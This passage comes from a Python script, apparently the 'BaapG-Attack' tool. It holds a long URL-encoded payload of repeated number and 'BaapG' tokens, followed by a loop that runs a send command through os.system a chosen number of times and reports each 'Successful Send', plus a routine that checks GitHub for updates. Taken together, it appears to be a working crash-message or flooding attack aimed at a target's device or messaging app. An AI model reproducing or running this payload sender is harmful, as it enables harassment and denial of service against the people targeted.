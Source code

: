 9999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*8888888888*%0A*9999999999*%20*BaapG*%20*9999999999*%0A*8888888888*%20*BaapG*%20*
    """)
    for i in range(crash):
    	print()
    	print(f"{Y}[✓] Sending Now")
    	link1 = os.system(link)
    	time.sleep(5)
    	if link1 == 0:
    		print(f"{G} Successful Send 👍")
    		pass
    	else:
    		print(f"{G}[×] Failed  ")
    	time.sleep(0.2)
    res()

def ver_check():
	a = (G + '[+]' + C + ' Checking for Updates.....')
	ver_url = 'https://raw.githubusercontent.com/T-Dynamos/BaapG-Attack/main/.version'
	try:
		ver_rqst = requests.get(ver_url)
		ver_sc = ver_rqst.status_code
		if ver_sc == 200:
			github_ver = ver_rqst.text
			github_ver = github_ver.strip()
			if version == github_ver:
				pass
			else:
				print(a+C + '[' + G + ' Available : {} '.format(github_ver) + C + ']' + '\n')
		else:
			print(a+C + '[' + R + ' Status : {} '.format(ver_sc) + C + ']' + '\n')
	except Exception as e:
		print('\n' + R + '[-]' + C + ' Exception : ' + W + str(e))
